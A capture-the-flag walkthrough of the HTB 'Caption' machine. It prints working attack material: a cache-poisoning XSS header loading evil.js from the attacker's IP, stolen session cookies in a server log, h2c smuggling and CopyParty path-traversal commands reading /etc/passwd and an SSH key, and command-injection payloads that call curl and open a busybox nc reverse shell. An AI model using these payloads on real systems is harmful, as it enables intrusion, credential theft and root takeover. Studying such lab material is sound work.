







Exploitation Summary
Exploitation process: The attack chain began with reconnaissance revealing a GitBucket repository containing hardcoded credentials and HAProxy configuration details. Using these credentials, I accessed the Caption Portal and discovered a cache poisoning vulnerability in the /firewall endpoint through the unsanitized X-Forwarded-Host header.
By poisoning the Varnish cache with an XSS payload, I stole the admin user's session token when they visited the cached page. With admin access, I needed to bypass HAProxy's restrictions on /logs and /download routes, which I achieved through HTTP/2 h2c request smuggling.
The smuggled requests allowed me to access protected routes, where I discovered a CopyParty service running on localhost port 3923. Exploiting CVE-2024-31621 (path traversal in CopyParty), I read arbitrary files including Margo's SSH private key, granting initial shell access to the system.
For privilege escalation, I identified an Apache Thrift service on port 9090 with a command injection vulnerability in its log processing functionality. By crafting a malicious log file and calling the service through a Thrift client, I injected commands that executed as root, obtaining a reverse shell with full system privileges.
Technologies/Exploits: Varnish cache poisoning, XSS via unsanitized headers, HTTP/2 h2c smuggling to bypass HAProxy, CopyParty path traversal (CVE-2024-31621), Apache Thrift service command injection.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target:

The scan reveals three main services: SSH on port 22, HTTP on port 80, and another HTTP service on port 8080. I add caption.htb to my /etc/hosts file and begin web enumeration.
Web Enumeration - Caption Portal
Running whatweb against the target reveals interesting details about the web stack:
whatweb http://caption.htbhttp://caption.htb [200 OK] Country[RESERVED][ZZ], HTML5,
HTTPServer[Werkzeug/3.0.1 Python/3.10.12], IP[10.10.11.33],
PasswordField[password], Python[3.10.12], Script,
Title[Caption Portal Login], UncommonHeaders[x-varnish], Varnish,
Via-Proxy[1.1 varnish (Varnish/6.6)], Werkzeug[3.0.1],
X-UA-Compatible[IE=edge]The application is running Python with Flask and Werkzeug, and importantly, it's behind a Varnish caching proxy. This will be relevant later for cache poisoning attacks.
Port 80 presents a login portal, while port 8080 hosts a GitBucket instance containing the source code for two projects:
- Caption-Portal - The service running on port 80
- Logservice - An internal logging service
GitBucket Source Code Analysis
Reviewing the commit history in GitBucket, I discover hardcoded credentials in one of the commits:
userlist AuthUsers
user margo insecure-password vFr&cS2#0!The credentials margo:vFr&cS2#0! successfully authenticate to the Caption Portal, granting me initial access as a standard user.
HAProxy Configuration Discovery
Another interesting commit titled "Fixed HAProxyBypass" reveals the reverse proxy configuration:
frontend http_front
bind *:80
default_backend http_back
acl multi_slash path_reg -i ^/[/%]+
http-request deny if multi_slash
acl restricted_page path_beg,url_dec -i /logs
acl restricted_page path_beg,url_dec -i /download
http-request deny if restricted_page
acl not_caption hdr_beg(host) -i caption.htbThis configuration reveals several critical details:
- HAProxy is protecting the
/logsand/downloadroutes - The backend technically has these routes exposed, suggesting a proxy bypass vulnerability
- There's path normalization protection against multiple slashes
Cache Poisoning via X-Forwarded-Host
While exploring the authenticated portal, I notice something peculiar in the source code - it references http://internal-proxy.local for loading resources. This could be hardcoded, but it's more likely that it reads from a header.

Testing this theory, I add the X-Forwarded-Host header to my requests:
X-Forwarded-Host: http://localhostThe URL changes in the response, confirming that the header is being processed:

Identifying the Cache Poisoning Vector
The real vulnerability here is cache poisoning. I observe that:
- The
X-Forwarded-Hostheader is not sanitized - The
/firewallroute is cached by Varnish for approximately 2 minutes - Other routes like
/homeare not cached - The cache status can be verified through the
Ageresponse header

This means if I poison the cache with an XSS payload, any user visiting /firewall during the cache period will receive the poisoned version.
Exploiting Cache Poisoning for XSS
I craft a payload to steal session cookies by injecting JavaScript through the X-Forwarded-Host header:

The payload causes the application to load a malicious script that exfiltrates session tokens:
X-Forwarded-Host: http://10.10.16.18:8000/evil.jsAfter sending the poisoned request, I set up an HTTP server to receive the stolen cookies:
python3 -m http.serverWhen I visit /firewall, I receive my own session token (confirming the XSS works), and shortly after, I receive another session token from the target machine:

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.16.18 - - "GET /?sess=session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...
10.10.11.33 - - "GET /?sess=session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...Decoding the JWT token reveals it belongs to the admin user:

I now have an admin session, but I still cannot access the protected /logs and /download routes due to HAProxy's restrictions.
HTTP/2 h2c Request Smuggling
To bypass HAProxy and access the restricted routes, I research proxy bypass techniques and discover HTTP/2 h2c smuggling. The attack is documented in this article: https://bishopfox.com/blog/h2c-smuggling-request
Understanding h2c Smuggling
The vulnerability works when:
- The reverse proxy (HAProxy) doesn't block HTTP/2 upgrade requests
- The backend server accepts HTTP/2 connections
- The proxy and backend disagree on request boundaries
Interestingly, HAProxy doesn't block HTTP/2 upgrades by default, making this attack possible. Manual exploitation is complex because it requires sending specific bytes after the HTTP/2 upgrade that cannot be easily crafted in Burp Suite.
I use the proof-of-concept tool from: https://github.com/BishopFox/h2csmuggler
Bypassing HAProxy Restrictions
Using the h2csmuggler tool with the admin session cookie, I can now access the protected /logs route:
python3 h2csmuggler.py -x http://caption.htb \
http://caption.htb/logs \
-H 'Cookie: session={admin_jwt_token}'
The output shows two requests - the second one is the smuggled request that bypasses HAProxy. I discover the correct syntax for the /download route, which requires a ?url query parameter.
Discovering Internal Services
Examining the log files, I find information about Margo's SSH authentication:
Mar 6 09:16:59 caption sshd[1619]: Accepted publickey for margo
from 10.10.14.13 port 35916 ssh2: ECDSA
SHA256:ui/tjroDv1J8dgCcGNIaAr3QIk9BBLFDJVwiH9emcSQThis reveals that Margo uses ECDSA keys for SSH authentication instead of RSA.
Testing the /download endpoint, I attempt path traversal but find it's protected. However, I do discover an internal service running on port 3923:
<a href="#" id="repl">π</a>
<span id="pb">
<span>powered by</span>
<a href="https://github.com/9001/copyparty">copyparty</a>
</span>Exploiting CopyParty Path Traversal (CVE-2024-31621)
CopyParty is a file sharing service, and researching it reveals a path traversal vulnerability: CVE-2024-31621
The vulnerability allows reading arbitrary files through the /.cpr/ path. The key trick is that the % character needs to be URL-encoded as %25 because the request passes through multiple proxies.
Reading System Files
I first test by reading /etc/passwd:
python3 h2csmuggler.py -x http://caption.htb \
'http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fetc%252Fpasswd' \
-H 'Cookie: session={admin_jwt_token}'This successfully returns the passwd file, revealing two users with bash shells:
root:x:0:0:root:/root:/bin/bash
margo:x:1000:1000:,,,:/home/margo:/bin/bash
ruth:x:1001:1001:,,,:/home/ruth:/bin/bashStealing SSH Private Key
Since I know Margo uses ECDSA keys for SSH, I attempt to read her private key:
python3 h2csmuggler.py -x http://caption.htb \
'http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa' \
-H 'Cookie: session={admin_jwt_token}'The request successfully retrieves Margo's private SSH key. I save it locally, set proper permissions, and connect:
chmod 600 id_ecdsa
ssh -i id_ecdsa margo@10.10.11.33I now have shell access as Margo and can retrieve the user flag.
Internal Enumeration
After gaining initial access, I enumerate the system for privilege escalation vectors:
Discovered Information
- Admin credentials in the web application:
admin:cFgjE@0%l0(doesn't work for ruth or root) - Ruth is a member of the
varnishgroup - SUID binary found:
/opt/google/chrome/chrome-sandbox
Ruth's Processes
Checking running processes with ps -faux, I notice Ruth is running a script related to Varnish logging:
ruth 1306 /bin/sh -c cd /home/ruth;bash varnish_logs.sh
ruth 1312 bash varnish_logs.sh
ruth 1317 varnishncsa -c -F %{VCL_Log:client_ip}x
ruth 1318 bash varnish_logs.shHowever, I don't have access to Ruth's home directory to examine these scripts.
Internal Network Services
Checking for locally listening ports reveals several interesting services:
tcp LISTEN 127.0.0.1:3923 # CopyParty
tcp LISTEN 127.0.0.1:8000 # Caption Portal backend
tcp LISTEN 127.0.0.1:6081 # Varnish
tcp LISTEN 127.0.0.1:6082 # Varnish admin
tcp LISTEN 127.0.0.1:9090 # LogservicePort 9090 catches my attention - it's the Logservice I saw earlier in GitBucket.
Analyzing the Logservice Code
Reviewing the Logservice source code in GitBucket, I identify a command injection vulnerability in the log processing logic:
ipRegex := regexp.MustCompile(`\b(?:\d{1,3}\.){3}\d{1,3}\b`)
// ...
line := scanner.Text()
ip := ipRegex.FindString(line)
userAgentMatch := userAgentRegex.FindStringSubmatch(line)
var userAgent string
if len(userAgentMatch) > 1 {
userAgent = userAgentMatch[1]
}
timestamp := time.Now().Format(time.RFC3339)
logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log",
ip, userAgent, timestamp)
exec.Command("/bin/sh", "-c", logs)The vulnerability is in the User-Agent parsing - it's not properly sanitized before being passed to exec.Command. By crafting a malicious log file with a specially crafted User-Agent field, I can inject arbitrary commands.
Understanding Apache Thrift
The service runs on Apache Thrift, which requires a specific protocol to communicate. In the GitBucket repository, I find a .thrift schema file:
namespace go log_service
service LogService {
string ReadLogFile(1: string filePath)
}This schema defines the interface for calling the service to read log files.
Setting Up Thrift Client
To interact with the Thrift service, I need to install dependencies and generate client code:
pip3 install thrift
sudo apt install thrift-compilerThen generate the Python client stubs:
thrift -r --gen py log_service.thriftI use Claude AI to generate a Python client script that connects to the Thrift service on port 9090. The generated client allows me to call the ReadLogFile function with a file path.
Testing the Thrift Client
First, I test with a non-existent file to confirm the service is working:
python3 client.py asdError: Internal error processing ReadLogFile:
error opening log file: open asd: no such file or directoryThen with an existing file:
python3 client.py /etc/passwdLog file contents:
Log file processedThe service successfully processes the file, confirming I can interact with it.
Exploiting Command Injection for Root Access
Now that I can call the Logservice, I exploit the command injection vulnerability by crafting a malicious log file.
Creating the Malicious Payload
As user Margo, I create a file /tmp/xd.txt with the following content:
{"user-agent":"' && curl 10.10.16.18:8000 && echo '"}When the service processes this file, the logs variable will become:
echo 'IP Address:, User-Agent: ' && curl 10.10.16.18:8000 && echo ', Timestamp: ...' >> output.logThis breaks out of the echo command and executes the injected curl command. I test the proof-of-concept:
python3 client.py /tmp/xd.txtOn my HTTP server, I receive the request:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.33 - - "GET / HTTP/1.1" 200 -The command injection works! Now I modify the payload to get a reverse shell.
Getting Root Shell
I update the payload in /tmp/xd.txt to execute a reverse shell:
{"user-agent":"' && busybox nc 10.10.16.18 443 -e sh 0>&1 && echo '"}I use busybox nc because the standard reverse shell one-liners weren't working in this environment. I set up a netcat listener:
sudo nc -lvnp 443Then execute the Thrift client to trigger the injection:
python3 client.py /tmp/xd.txtI receive a connection and verify root access:
whoami
root
cat /root/root.txtI successfully escalated to root and can retrieve the root flag, completing the machine.